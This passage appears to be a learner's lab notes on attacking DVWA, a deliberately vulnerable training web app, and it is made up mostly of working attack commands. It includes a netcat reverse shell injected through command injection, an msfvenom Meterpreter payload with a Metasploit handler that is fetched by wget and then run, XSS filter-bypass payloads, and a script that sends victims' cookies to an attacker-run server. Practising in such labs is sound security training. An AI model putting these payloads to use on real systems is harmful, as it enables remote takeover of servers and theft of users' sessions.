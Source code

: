	$ 172.16.116.130 | nc -e /bin/bash 172.16.116.130 1234

-- High security

It will filter out any command injection


## Meterpreter shell (DVWA)

-- payload creation with python

	$ cd Desktop

	$ msfvenom -p python/meterpreter/reverse_TCP LHOST=172.16.116.130 LPORT=1234 >> tester.py

	$ service apache2 start - start webserver on the attack machine

	$ cp dvwa-shell.py /var/www/html

	$ msfconsole

	$ use exploit/multi/handler

	$ set LHOST 172.16.116.130

	$ set LPORT 1234

	$ run

	> & wget 172.16.116.130/dvwa-shell.py & python dvwa-shell.py


## XSS

- Reflected

-- Low security

	> <script>alert('1'),</script> - will generate an alert with message '1'

	* analyze source code

-- Medium security

	> <SCRIPT>alert('1')</SCRIPT>

	> <scr<script>ipt>alert('1'),</script>

- Cookie stealing 

	$ python -m SimpleHTTPServer 1234

	$ <SCRIPT>document.write('<img src=http://172.16.116.130:1234/' + document.cookie + ' ">');</script>

- Stored

-- Low security

	$ <script>alert('1'),</script>

-- Medium security

	- htmlspecialchars($name) is the function that strips all illegal HTML charactes
